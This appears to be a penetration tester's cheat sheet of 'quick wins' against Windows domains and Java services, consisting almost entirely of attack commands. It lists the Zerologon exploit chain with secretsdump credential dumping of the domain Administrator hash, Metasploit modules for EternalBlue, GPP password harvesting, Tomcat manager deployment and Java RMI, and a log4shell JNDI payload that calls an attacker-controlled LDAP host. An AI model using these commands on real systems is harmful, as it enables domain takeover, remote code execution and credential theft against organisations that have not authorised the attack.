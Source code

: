 ### Quick wins  
zerologon (unsafe) - (CVE-2020-1472)  
  
python3 cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>  
secretsdump.py <DOMAIN>/<MACHINE_BIOS_NAME>\$@<IP> -no-pass -just-dc-user "Administrator"   
secretsdump.py -hashes :<HASH_admin> <DOMAIN>/Administrator@<IP>  
python3 restorepassword.py -target-ip <IP> <DOMAIN>/<MACHINE_BIOS_NAME>@<MACHINE_BIOS_NAME> -hexpass <HEXPASS>  
  
Eternal Blue  
MS17-010  
	exploit/windows/smb/ms17_010_eternalblue  
  
SYSVOL & GPP  
MS14-025  
	use scanner/smb/smb_enum_gpp  
	findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml  
  
tomcat/jboss manager  
	auxiliary/scanner/http/tomcat_enum  
exploit/multi/http/tomcat_mgr_deploy  
  
java rmi  
	exploit/multi/misc/java_rmi_server  
  
java serialized port  
	ysoserial  
  
vulnerable product with cve  
	searchsploit  
  
log4shell  
	${jndi:ldap://<ip>:<port>/o=reference}  
		rogueJndi-1.0.jar  
  
database credentials  
	use admin/mssql/mssql_enum_sql_logins  
  
